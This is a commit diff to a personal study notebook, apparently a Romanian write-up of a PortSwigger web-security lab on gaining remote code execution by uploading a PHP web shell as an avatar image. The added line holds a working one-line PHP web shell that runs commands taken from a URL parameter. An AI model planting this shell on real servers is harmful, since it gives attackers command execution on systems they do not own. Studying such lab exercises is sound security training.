

Before and after one commit to Paius-George/obsidian, a Markdown page: Portswigger/File Upload Vulnerabilities/Remote code execution via web shell upload.md, the part around the change. Drawn GitHub-style; pictures changed too: attachments/Pasted image 20261019133303.png (added); blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
vault backup: 2026-10-19 13:33:22

```diff
--- a/Portswigger/File Upload Vulnerabilities/Remote code execution via web shell upload.md
+++ b/Portswigger/File Upload Vulnerabilities/Remote code execution via web shell upload.md
@@ -10,4 +10,6 @@ Astfel, acum dintr-un avatar de tip imagine avem un cod php.
 
 ![](../../attachments/Pasted%20image%2020261019133202.png)
 
-Am folosit `<? p`
+Am folosit `<?php echo system($_GET['command']); ?>`
+
+![](../../attachments/Pasted%20image%2020261019133303.png)
```
